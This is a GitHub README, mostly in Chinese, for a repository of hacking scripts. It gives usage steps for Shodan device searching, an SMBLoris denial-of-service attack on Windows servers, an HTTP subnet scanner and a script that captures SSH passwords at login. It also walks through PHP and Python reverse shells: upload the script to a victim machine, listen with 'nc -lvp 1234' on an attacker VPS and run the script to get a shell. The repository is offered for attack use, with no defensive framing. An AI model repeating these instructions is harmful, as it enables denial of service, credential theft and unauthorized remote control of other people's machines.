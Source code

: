 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量,如weblogic

shodancount.py weblogic

调用shodan api 搜索设备,如weblogic

shodansearch.py weblogic

# SMBLoris 通过smb对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

如要扫描192.168.0.0/24

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell.php 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为自己的公网vps

上传该脚本到被攻击的机器上

登录自己的公网vps，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在vps上看到shell

php php-reverse-shell.php

# php-reverse-shell.py 一个基本python的反弹shell脚本

在vps上监听端口，如1234

nc -lvp 1234

把php-reverse-shell.py上传到被攻击的机器上,指定vps地址和端口执行即可

php-reverse-shell.py vps地址 1234

# Hope you enjoy ^_^